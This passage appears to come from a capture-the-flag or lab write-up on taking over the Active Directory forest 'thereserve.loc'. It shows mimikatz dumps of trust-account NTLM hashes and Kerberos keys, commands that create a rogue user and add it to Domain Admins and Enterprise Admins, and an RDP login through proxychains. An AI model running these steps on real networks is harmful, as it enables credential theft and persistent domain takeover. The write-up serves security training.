    lm  - 7: 971676df9e8d5b64ab13779c50cd5a96
    lm  - 8: 74d9d7328ce126871c568af23370ee55
    lm  - 9: 94b886fe1aeab3ceb6b91acec23def3c
    lm  -10: c100cdd21fecdbe097592ed8e3915fc5
    lm  -11: 0955d8221538531e977c0ba9fc333641
    lm  -12: 843b52a8fcc5e39c4e29d35cf31de963
    lm  -13: e24c462d14dd029e7c8760b5f3c04ffb
    lm  -14: e78a9f23ba8b2182a26717576db08e00
    lm  -15: f823b5080613d7c583bee8aee038a20e
    lm  -16: abf63f768dc34ad53e3c4df4781ddc72

 * WDigest
    01  136c03abb34b6345bce2d19b320025cf
    02  ac6255362dd8196ac3088aee72ca39a2
    03  136c03abb34b6345bce2d19b320025cf
    04  136c03abb34b6345bce2d19b320025cf
    05  e01a2a0df7e9424ba4419596852763e0
    06  e01a2a0df7e9424ba4419596852763e0
    07  f9e1bc77dfe4a5606715f2bbea6d67d7
    08  b233b98772e2e98eb8e7a09b58c8df44
    09  93fdabf18d9997d94158c1bca7501dc3
    10  2926722d999720e0d92e28966a2f84ae
    11  2926722d999720e0d92e28966a2f84ae
    12  b233b98772e2e98eb8e7a09b58c8df44
    13  b233b98772e2e98eb8e7a09b58c8df44
    14  ed448e5e6bbb8634b4edda7f033e03fb
    15  5937b7b1e2632cc1e4cdbb6096621b9d
    16  90c68ce77d6d3694bee8849811c9567c
    17  33422e361fe396a9083d66283cb870f8
    18  4068474e873e3c488c5d0329d063b948
    19  c1b5237718a06e059933c339a8e09f33
    20  4068474e873e3c488c5d0329d063b948
    21  4fb11ad340455b34e17fa638544f6638
    22  99595eaa8a2e2076ea6f445ff072635f
    23  4fb11ad340455b34e17fa638544f6638
    24  79148460d99a4f8308c94187df9e025a
    25  ac665dcbb5cff4a35423d569017af0a9
    26  ffed5e5d27a9718f010bda565b618094
    27  5dbeb1da2dd745705ca328eee8689b2f
    28  c3607bfc019879de4a4712097ecee1b0
    29  5dbeb1da2dd745705ca328eee8689b2f

 * Kerberos
    Default Salt : THERESERVE.LOCkrbtgtBANK
    Credentials
      des_cbc_md5       : bae55d4601d5c7c1
    OldCredentials
      des_cbc_md5       : bae55d4601d5c7c1

 * Kerberos-Newer-Keys
    Default Salt : THERESERVE.LOCkrbtgtBANK
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : e3426bedfaac1571d4f42ce40cb2d64bb353b982d05a34063ca6335cf6feb68d
      aes128_hmac       (4096) : 63551875af58c63c0b2d5538e2b1ac90
      des_cbc_md5       (4096) : bae55d4601d5c7c1
    OldCredentials
      aes256_hmac       (4096) : e3426bedfaac1571d4f42ce40cb2d64bb353b982d05a34063ca6335cf6feb68d
      aes128_hmac       (4096) : 63551875af58c63c0b2d5538e2b1ac90
      des_cbc_md5       (4096) : bae55d4601d5c7c1
    OlderCredentials
      aes256_hmac       (4096) : 15d34b04b0c039ff50f501b48830b22f1278b0ce35c14d4541ef651ac05b17fb
      aes128_hmac       (4096) : e468ebbb0573775afe1218e11b7a13f5
      des_cbc_md5       (4096) : aec85443341904c8

RID  : 00000459 (1113)
User : CORP$

 * Primary
    NTLM : c7141c16b367d3173adf801d6c7f02e9
    LM   :
  Hash NTLM: c7141c16b367d3173adf801d6c7f02e9
    ntlm- 0: c7141c16b367d3173adf801d6c7f02e9
    ntlm- 1: 3f578c26351232950a46dad7e314f58f
    ntlm- 2: 3f578c26351232950a46dad7e314f58f
    ntlm- 3: 3f578c26351232950a46dad7e314f58f
    ntlm- 4: f3e8c7f3b6af610e8ff4cf46dcbc688a
    ntlm- 5: f3e8c7f3b6af610e8ff4cf46dcbc688a
    ntlm- 6: 01e078c07e22800b86d8331c5991aeed
    ntlm- 7: 65516f5e8a4b31fa7d55706fdf97293b
    ntlm- 8: 65516f5e8a4b31fa7d55706fdf97293b
    ntlm- 9: 6805d2788466ebddb8990c15f942bdbe
    ntlm-10: 6805d2788466ebddb8990c15f942bdbe
    ntlm-11: 735856f49a4c6fa8b4f5a61071ccaefd
    ntlm-12: 735856f49a4c6fa8b4f5a61071ccaefd
    ntlm-13: 76b7d634e5000116357f765f7d1a908b
    ntlm-14: 76b7d634e5000116357f765f7d1a908b
    ntlm-15: 76bb85b5a467a424b447e9df0652754c
    ntlm-16: 76bb85b5a467a424b447e9df0652754c
    lm  - 0: 01b6a24d1c59a462624f450866729dec
    lm  - 1: 1958f710c4e81157404f4331b3d1d694
    lm  - 2: bf7dde867a8175e3311d072660691366
    lm  - 3: 8afe85da9e7b37c63d2eafba3448a870
    lm  - 4: 33f14d05bdba5587c031bbb9f0ad076f
    lm  - 5: c781b53b1757275fd6b2d5478da79d50
    lm  - 6: b84e4d9bfd85d6833d343e1c391b02da
    lm  - 7: ee86026feb78e8a073306c88a35258ee
    lm  - 8: fa5ee4edafde8fbcf11e001a38bcbc7f
    lm  - 9: da52896e5bcae3ff7166f6d2feb33df5
    lm  -10: 03daad836760dc0fc0e97b3130b36fea
    lm  -11: 0e2746b26b9cfc426fa289674912f148
    lm  -12: 7400c2f4c740da28e48b3fa6c067b50c
    lm  -13: 6e2dbbde915f2ef392b2b721b4db3738
    lm  -14: eab1176f381f66eb05c3bee81d81d41e
    lm  -15: 999e52a10a9ee103e76d0bc3e3a4d773
    lm  -16: c555abdcadaaa21cde780c26aecea6b5

 * WDigest
    01  0a1ea226842d8dbdcfb4073e8857204d
    02  4661af25745a4460daaaae03b83fd0dc
    03  0a1ea226842d8dbdcfb4073e8857204d
    04  0a1ea226842d8dbdcfb4073e8857204d
    05  9193166a3cd9d493be1d969ba2a8adf1
    06  9193166a3cd9d493be1d969ba2a8adf1
    07  51409e2774ea7c2d1bf3eca5a24673ca
    08  36444e9b7217512d9cb0a509c1137915
    09  49851d7c06b51ad6ece5648e1b4ccaa3
    10  ccc163177c21ee83894dae62afad98e8
    11  ccc163177c21ee83894dae62afad98e8
    12  36444e9b7217512d9cb0a509c1137915
    13  36444e9b7217512d9cb0a509c1137915
    14  ed2d02d308754a43a13b5e4945fd57a9
    15  92139a53442b33149558bcce72c619b9
    16  adbb19af5470b93f67596d2ca2f2ccb0
    17  b869c803da575002e2f942a11c867568
    18  79e07f6a90c81f3cb01c8d98908ef570
    19  8e722d5abfa787ce42ae1cae6327e9e2
    20  79e07f6a90c81f3cb01c8d98908ef570
    21  8bf075701cd2ef70c3a08194b7815fa4
    22  2d7f688d507b3b71b831a8a44e51b579
    23  8bf075701cd2ef70c3a08194b7815fa4
    24  76f07c26135803d3fb367f41d5d30b7d
    25  9759e4da79aa788b91a0d67034a55553
    26  900eb894a411b23b94764564b777c2e6
    27  3c1eb447457c59353335c913c8d0025b
    28  e167227e7985beeef6d8c9da1099338a
    29  3c1eb447457c59353335c913c8d0025b

 * Kerberos
    Default Salt : THERESERVE.LOCkrbtgtCORP
    Credentials
      des_cbc_md5       : 73f49dea94860162
    OldCredentials
      des_cbc_md5       : 6bfe3eb92607a12a

 * Kerberos-Newer-Keys
    Default Salt : THERESERVE.LOCkrbtgtCORP
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 918d4dd34386c0aa755a9994c551e270e67466737908fadcbfe0e1f7959d2359
      aes128_hmac       (4096) : 0f79ead42805b600b92f30348f98b5d2
      des_cbc_md5       (4096) : 73f49dea94860162
    OldCredentials
      aes256_hmac       (4096) : 8d428dd4a1c463572c15d9ddb94d8556f9167478fc3c1e7d3378a85edbac40eb
      aes128_hmac       (4096) : a0aadfd2b492ae9247ac71c16b75f2a9
      des_cbc_md5       (4096) : 6bfe3eb92607a12a
    OlderCredentials
      aes256_hmac       (4096) : 8d428dd4a1c463572c15d9ddb94d8556f9167478fc3c1e7d3378a85edbac40eb
      aes128_hmac       (4096) : a0aadfd2b492ae9247ac71c16b75f2a9
      des_cbc_md5       (4096) : 6bfe3eb92607a12a

mimikatz #
```

finally, create a fake user as enterprise admin in the root domain:

```shell
net user d1sturb3d /add M3nta11y /domain
net group "Domain Admins" d1sturb3d /add /domain
net group "Enterprise Admins" d1sturb3d /add /domain
```

We can connect to the bankDC with this fake enterprise admin account:

```shell
proxychains xfreerdp /u:d1sturb3d /p:M3nta11y /d:thereserve.loc /v:10.200.118.101
```

## Notes

In another subnet, its seems requiered to use DCSync, see https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket

